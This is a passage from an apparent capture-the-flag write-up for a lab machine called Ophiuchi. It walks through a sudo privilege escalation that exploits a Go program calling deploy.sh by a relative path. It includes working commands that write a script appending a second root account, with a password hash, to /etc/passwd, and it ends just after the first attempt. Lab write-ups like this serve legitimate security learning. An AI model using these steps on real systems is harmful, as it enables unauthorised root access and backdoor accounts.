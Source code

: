 ```bash
                fmt.Println(string(out))
        }
}
```

Enumerated contents of **/opt/wasm-functions/**:

```bash
admin@ophiuchi:~$ ls -al /opt/wasm-functions/
total 3928
drwxr-xr-x 3 root root    4096 Oct 14  2020 .
drwxr-xr-x 5 root root    4096 Oct 14  2020 ..
drwxr-xr-x 2 root root    4096 Oct 14  2020 backup
-rw-r--r-- 1 root root      88 Oct 14  2020 deploy.sh
-rwxr-xr-x 1 root root 2516736 Oct 14  2020 index
-rw-rw-r-- 1 root root     522 Oct 14  2020 index.go
-rwxrwxr-x 1 root root 1479371 Oct 14  2020 main.wasm
```

What this script do is importing the **wasm** function from github.com/wasmerio/wasmer-go/wasmer, reading a the **main.wasm** file, extracting the `info` field and controlling its value. In case info is different by 1 the script print an error message, otherwise it execute the deploy.sh script. What stands out is that the script executes delpoy.sh without specifying the absolute path of the file.

```bash
...
func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")
		...
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
        ...
```

Relative path can be abused in order to execute arbitrary code from any user's writable path. By being able to control the flow of the program **it would be possible to execute an arbitrary script with elevated privileges** (thanks to sudo).

First of all, a **bash script that inject a second arbitrary root user** was created inside the user directory:

```bash
admin@ophiuchi:~$ echo '#!/bin/bash' > deploy.sh 
admin@ophiuchi:~$ echo 'echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd' > deploy.sh 
admin@ophiuchi:~$ cat deploy.sh 
#!/bin/bash
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Then the **main.wasm** file was searched and copied on the current directory in order to have the file which allows to control the data flow of the script:

```bash
admin@ophiuchi:/$ find / -name main.wasm 2>/dev/null
/opt/wasm-functions/main.wasm
/opt/wasm-functions/backup/main.wasm
admin@ophiuchi:~$ cp /opt/wasm-functions/backup/main.wasm .
admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```
